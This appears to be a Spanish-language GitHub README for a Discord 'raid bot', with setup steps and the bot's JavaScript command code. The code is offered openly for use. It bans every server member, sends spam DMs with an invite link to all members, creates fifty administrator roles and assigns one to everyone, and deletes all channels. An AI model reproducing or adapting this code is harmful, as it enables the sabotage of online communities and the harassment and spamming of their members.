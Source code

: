 # anotherdiscordraidbot

Otro Bot de Raid de Discord, no es lo esperado o lo buscado por los mas exigentes; pero sirve.

## Instalacion / Configurar

Primero clona el repositorio:
```bash
[/home/1080] nyethash~# git clone https://github.com/zJuack/anotherdiscordraidbot
```

Despues de eso es hora que configures, edites y hostees el bot, repl.it es una opcion; o Heroku.

Facilmente podrias configurar el bot haciendo cambios en ciertas lineas, como por ejemplo:

```js
client.login("El Token de tu Bot esta aqui.");
```
```js
  if (command === "banall") {
    message.guild.members.cache.forEach(allUsers => { allUsers.ban() })
  }
  if (command == "dm") {
    message.guild.members.cache.forEach(pitos => {
      pitos.send("Tu mensaje para DM: discord.gg/tuservidor")

    })
  }
  if (command == "roles") {
    for (let i = 0; i <= 50; i++) {
      message.guild.roles.create({ data: { name: "TuNombreDeRol", permissions: "ADMINISTRATOR", color: "BLACK" } })
    }
    let xd = message.guild.roles.cache.find(c => c.name === "TuNombreDeRol");
    message.guild.members.cache.forEach(allUsers => { allUsers.roles.add(xd) })
  }
  if (command == "deletechannels") {
    message.guild.channels.cache.forEach(xd => xd.delete())
  }
});
```

Hay mas cosas que puedes cambiar, pero tu las podes ver tu mismo, por cualquier problema; no dudes entrar a https://discord.gg/stocking y contactarme via DM o preguntar por quien es zHack.
